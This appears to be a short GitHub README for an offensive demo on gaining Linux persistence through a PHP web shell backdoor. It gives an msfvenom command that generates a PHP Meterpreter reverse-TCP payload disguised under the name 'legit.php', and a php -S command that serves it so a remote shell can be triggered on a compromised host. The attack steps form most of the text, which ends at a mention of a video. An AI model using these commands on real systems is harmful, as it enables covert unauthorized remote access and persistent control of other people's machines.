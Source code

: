 # LINUX PERSISTENCE VIA WEB SHELL BACKDOOR

This demo illustrates the process of creating a PHP backdoor using msfvenom, setting up a web server to host the backdoor, and establishing persistence by triggering the backdoor on demand.  
This technique allows for remote access via Metasploit's Meterpreter session.  


## Instructions

Create the php backdoor with [*msfvenom*](https://www.offsec.com/metasploit-unleashed/msfvenom/):  
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<YOUR-ADDRESS> LPORT=4444 -f raw -o legit.php
```  

Spin up a php web dev server to expose the backdoor:  
```sh
php -S <YOUR-ADDRESS>:80
```  

Now you can trigger that backdoor "on-demand" and obtaining a session on the compromised linux host.  
Follwoing is a brief video depicting the full process:  

